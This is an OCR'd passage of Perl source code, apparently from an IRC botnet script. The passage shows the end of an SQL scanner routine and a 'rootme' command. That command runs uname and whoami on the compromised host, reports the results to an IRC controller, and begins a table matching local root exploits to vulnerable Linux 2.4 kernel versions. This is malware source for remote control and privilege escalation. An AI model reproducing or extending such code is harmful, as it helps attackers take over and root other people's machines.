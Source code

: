          } 

         sendraw($IRC_cur_socket, "PRIVMSG $printl :4,16 [ sql ] [ 12Koniec 4 ] ");       

      } 

   delproc($$); 

   exit; 

   } 

} 

#######  SQL SCANNER  ######### 

###################### 

#        Rootable                                     # 

###################### 

if ($funcarg =~ /^rootable/) {  

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Rootable12]::::... Nah tho "); 

} 

if ($funcarg =~ /^rootme/) {  

my $khost = `uname -r`; 

my $currentid = `whoami`; 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Rootable12] Currently you are ".$currentid." "); 

sendraw($IRC_cur_socket, "PRIVMSG $printl :12[4@3Rootable12] The kernel of this zr is ".$khost." "); 

chomp($khost); 

  

   my %h; 

   $h{'w00t'} = {  

      vuln=>['2.4.18','2.4.10','2.4.21','2.4.19','2.4.17','2.4.16','2.4.20']  

   }; 

     

   $h{'brk'} = { 

      vuln=>['2.4.22','2.4.21','2.4.10','2.4.20']  

   }; 

     

   $h{'ave'} = { 

      vuln=>['2.4.19','2.4.20']  
